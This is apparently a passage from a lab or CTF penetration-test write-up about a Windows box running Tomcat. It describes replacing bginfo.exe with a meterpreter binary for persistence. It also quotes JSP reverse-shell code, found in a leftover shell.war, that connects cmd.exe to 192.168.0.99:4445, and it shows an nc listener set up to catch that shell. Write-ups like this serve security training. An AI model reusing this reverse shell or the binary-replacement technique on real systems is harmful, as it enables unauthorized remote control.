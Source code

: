 
### Persistence (possibly)

Overwrote `bginfo.exe` with a meterpreter executable to possible give us a new connection on a BGinfo run. Failed to trigger during the observation period, including after a reboot of the box.


### Privilege Elevation Tomcat

From the enumeration, noticed tomcat is running on 8080. In the low priv shell, find where this is setup.

    meterpreter > search -f *tomcat*
    Found 43 results...
        c:\Program Files\Apache Software Foundation\Tomcat 7.0\bin\tomcat-juli.jar (44739 bytes)
        c:\Program Files\Apache Software Foundation\Tomcat 7.0\bin\Tomcat7.exe (86656 bytes)
        c:\Program Files\Apache Software Foundation\Tomcat 7.0\bin\Tomcat7w.exe (110208 bytes)
        ...

Have a look around.

    meterpreter > cd /Program\ Files/Apache\ Software\ Foundation/Tomcat\ 7.0/webapps
    meterpreter > ls
    Listing: c:\Program Files\Apache Software Foundation\Tomcat 7.0\webapps
    =======================================================================
    
    Mode              Size   Type  Last modified              Name
    ----              ----   ----  -------------              ----
    40777/rwxrwxrwx   4096   dir   2017-11-14 00:15:05 -0500  ROOT
    40777/rwxrwxrwx   16384  dir   2017-11-14 00:15:06 -0500  docs
    40777/rwxrwxrwx   4096   dir   2017-11-14 00:15:06 -0500  examples
    40777/rwxrwxrwx   0      dir   2017-11-14 00:15:06 -0500  host-manager
    40777/rwxrwxrwx   0      dir   2017-11-14 00:15:06 -0500  manager
    40777/rwxrwxrwx   0      dir   2018-02-06 18:41:29 -0500  shell
    100666/rw-rw-rw-  1087   fil   2018-02-06 18:41:29 -0500  shell.war

wtf!? `shell.war`?

Unpack `shell.war` (which is simply a gzip). Browse the source code in `shell/swbjeakb.jsp`.

    if (System.getProperty("os.name").toLowerCase().indexOf("windows") == -1) {
      ShellPath = new String("/bin/sh");
    } else {
      ShellPath = new String("cmd.exe");
    }
    
        Socket socket = new Socket( "192.168.0.99", 4445 );
        Process process = Runtime.getRuntime().exec( ShellPath );
        ( new StreamConnector( process.getInputStream(), socket.getOutputStream() ) ).start();
        ( new StreamConnector( socket.getInputStream(), process.getOutputStream() ) ).start();


The payload appears to be starting a straight (i.e. non meterpreter) reverse shell, to 192.168.0.99 on port 4445. Lets try and catch that using netcat.

    nc -nvlp 4445
